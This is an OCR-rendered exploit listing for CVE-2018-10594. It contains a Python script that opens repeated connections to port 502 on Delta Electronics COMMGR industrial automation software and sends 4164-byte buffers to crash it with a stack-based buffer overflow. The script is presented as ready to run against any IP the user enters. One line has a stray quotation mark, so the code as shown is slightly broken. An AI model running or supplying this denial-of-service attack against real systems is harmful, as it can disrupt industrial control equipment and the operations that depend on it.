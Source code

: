 EXP
---

    # Exploit Title: Delta Electronics Delta Industrial Automation COMMGR
    - Remote STACK-BASED BUFFER OVERFLOW
    # Date: 02.07.2018
    # Exploit Author: t4rkd3vilz
    # Vendor Homepage: http://www.deltaww.com/
    # Software Link:
    http://www.deltaww.com/Products/PluginWebUserControl/downloadCenterCounter.aspx?DID=2093&DocPath=1&hl=en-US
    # Version:
    COMMGR Version 1.08 and prior.
       DVPSimulator EH2, EH3, ES2, SE, SS2
       AHSIM_5x0, AHSIM_5x1
    # Tested on: Kali Linux
    # CVE : CVE-2018-10594


    #Run exploit, result DOS

    import socket


    ip = raw_input("[+] IP to attack: ")

    sarr = []
    i = 0
    while True:
        try:
            sarr.append(socket.create_connection((ip,502)))
            print "[+] Connection %d" % i
            crash1 = "\x41"*4164"
            sarr[i].send(crash1+'\r\n')
            i+=1
        except socket.error:
            print "[*] Server crashed "
            raw_input()
            break